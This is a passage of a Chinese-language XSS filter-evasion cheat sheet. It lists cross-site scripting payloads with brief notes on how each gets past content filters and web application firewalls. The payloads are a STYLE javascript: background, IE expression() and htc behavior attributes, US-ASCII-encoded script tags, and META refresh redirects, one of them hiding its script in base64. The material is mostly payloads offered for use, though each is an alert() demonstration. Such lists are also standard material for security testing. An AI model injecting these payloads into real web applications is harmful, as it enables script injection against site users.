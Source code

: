 ```
<STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>
```

* * *

### 匿名html标签的属性

IE6.0 和使用了ix渲染引擎的Netscape 8.1+ 并不会关心你建立的html标签存在与否。只要它是以尖括号以及字符开始的。

```
<XSS STYLE="xss:expression(alert('XSS'))">
```

* * *

### 本地 htc 文件

它有一个小的不同与上面的xss向量，因为他使用的 htc 文件必须是当前域的文件。这个文件通过样式属性引入并运行javascript代码实现xss。

```
<XSS STYLE="behavior: url(xss.htc);">
```

* * *

### US-ASCII编码

US-ASCII 编码 (发现被 Kurt Huwig)。它是使用畸形的ASCII 编码用7bits代替8bits. 这个xss可以绕过绝大多数内容过滤，但是必须当前域的传输形式为 US-ASCII编码方式。或者你自己去设置这种编码方式 。它是有用的去绕过web应用防火墙xss过滤比服务器端的过滤。Apache的 Tomcat是众所周知的 使用US-ASCII编码传输协议。

```
¼script¾alert(¢XSS¢)¼/script¾
```

* * *

### META

关于meta refresh比较奇怪的是他并不是发送一个刷新请求头。因此他通常用于不需要引用url的攻击。

```
<META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');">
```

* * *

### META using data

URL指令方案，它是非常的不错因为赢没有明显的SCRIPT单词或是JavaScript 指令出现，因为它使用了base64 编码。请查看 [RFC 2397](https://tools.ietf.org/html/rfc2397)了解更多信息或是编码你的代码。你也可以使用 [XSS calculator](http://ha.ckers.org/xsscalc.html)去编码你的html或是javascript代码到base64位。

```
<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">
```

* * *
